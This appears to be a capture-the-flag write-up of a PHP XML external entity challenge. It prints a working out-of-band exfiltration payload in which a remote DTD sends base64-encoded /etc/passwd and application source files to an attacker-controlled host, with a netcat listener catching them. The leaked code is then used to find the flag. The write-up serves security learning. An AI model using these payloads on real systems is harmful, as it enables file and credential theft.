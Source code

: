 # Leakage problem

Leakage problem was a PHP based XML external entity (XXE) injection challenge. The website
has a single field which expects an email address:

<img width="725" alt="image" src="https://user-images.githubusercontent.com/6275775/231825682-9b661676-cd6f-4bb1-9be1-03560a21a030.png">

The first thing to notice is that the corresponding request contains an xml payload:

```
<?xml version="1.0"?>
<form>
<email>xxx@foo.com</email>
</form>
```

This immediately triggers the XXE attack vector. I have a small server running where
I can host payloads for such competitions, so after some trial and error I got to the
following setup. (I'll use example.com below instead of the real server.)


```
# https://example.com/foo.dtd
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://example.com:11111/?%file;'>">%start;
```

and send this to the website:

```
<?xml version="1.0"?>
<!DOCTYPE form [ 
    <!ENTITY % remote SYSTEM "https://example.com/foo.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
     %remote;
     %send;
 ]>
<form>
<email>"</email>
</form>
```

I can listen to the incoming requests in my server with:
```
nc -l localhost 11111
```

This works fine, I get the `/etc/passwd` file. What else can we steal? I looked around the 
`/proc` folder in my linux machine for inspiration then tried things like `/proc/self/cmdline`,
`/proc/self/cwd/index.php` and `/proc/self/cwd/register.php`:

```php
# register.php
...

if( isset($creds->email)){
    $url = 'http://127.0.0.1:4200/register';
    $data = array('email' => $creds->email);
    $options = array(
        'http' => array(
            'header'  => "Content-type: application/x-www-form-urlencoded",
            'method'  => 'POST',
            'content' => "email=".$creds->email
        )
    );
    $context  = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    $success=True;
}
...
```

Ok, we have nice LFI, and it seems that the register.php forwards the request to an other service
that runs on port 4200.

I also checked `/proc/1/cmdline`:

```
/bin/sh -c apachectl start && node index.js
```

Maybe it is running in the `/app` directory, let's try `/app/index.js`:

```javascript
/* index.js */

const express = require("express");
const schema = require("./schema");
const resolvers = require("./resolvers");
const { graphqlHTTP } = require('express-graphql');
const {Users} = require('./users')
const bodyParser = require('body-parser')

const urlencodedParser = bodyParser.urlencoded({ extended: false })

const app = express();

app.use(
  "/graphql",
  graphqlHTTP({
    schema,
    rootValue: resolvers,
    graphiql: true
  })
);

app.post('/register',urlencodedParser,(req, res) =>{
  try{
    if(typeof req.body.email != 'undefined' && req.body.email){
      Users.push({email:req.body.email});
    }
  }catch(e){}
  return res.end();
});


const port = process.env.PORT || 4200;
app.listen(port);

console.log(`GraphQL Server is ready at http://localhost:4200/graphql`);
```

Bingo. From here, we can download the all the files mentioned in the import section (add .js to the 
filename), there is `data.js` which is kind of big and has some base64 encoded data in it. This is
some weird picture of Shrek with our most wanted flag.

